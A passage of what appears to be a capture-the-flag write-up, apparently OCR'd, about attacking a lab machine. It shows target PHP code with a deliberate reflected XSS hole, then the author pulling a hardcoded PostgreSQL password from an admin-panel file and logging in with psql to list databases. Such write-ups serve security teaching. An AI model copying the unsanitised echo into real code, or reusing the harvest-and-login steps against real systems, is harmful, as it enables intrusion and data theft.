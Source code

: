 ```
setcookie($cname,$cvalue,$ctime,"/");

/*block code to get and show the XSS*/
$xss=$_GET['x'];
echo $xss;
/*end block*/
?>

# Not really indeed
```
Then let's take a look to the files in admin panel:

```
cat users.php

 $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
```

And Boom! another DB, this time a postgres db with some db user and pass:

```
psql -U unixnss -h 127.0.0.1 -d unix

   Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileg
es
-----------+----------+----------+-------------+-------------+------------------
-----
 postgres  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 redcross  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =Tc/postgres
    +
           |          |          |             |             | postgres=CTc/post
gres+
           |          |          |             |             | www=CTc/postgres
 template0 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres
    +
           |          |          |             |             | postgres=CTc/post
gres
 template1 | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres
    +
           |          |          |             |             | postgres=CTc/post
gres
 unix      | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |

```

Let's take back a look to the users.php file since there we have the key of where the interesting data is hosted:
```
<?php
if(isset($_SESSION['auth']) and $_SESSION['auth']===1){
        echo "<center>";
        echo "<form method=POST action='/pages/actions.php'>Add virtual user:<input type='text' name='username'>&nbsp<input type='submit' name='action' value='adduser'></form>";
        echo "</center>";

        $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
        $result = pg_prepare($dbconn, "q1", "SELECT * FROM passwd_table WHERE gid = 1001");
        $result = pg_execute($dbconn, "q1", array());
        if(pg_num_rows($result)>0){
                echo "<center align=center><table cellspacing=5 cellpadding=5><tr><td>Username</td><td>UID</td><td>GID</td><td>Action</td></tr>";
                while($line=pg_fetch_array($result, null, PGSQL_ASSOC)){
                        echo "<tr><td>".$line['username']."</td><td>".$line['uid']."</td><td>".$line['gid']."</td>";
                        echo "<td><form action='/pages/actions.php' method=POST><input type=hidden name=uid value=".$line['uid'].">";
```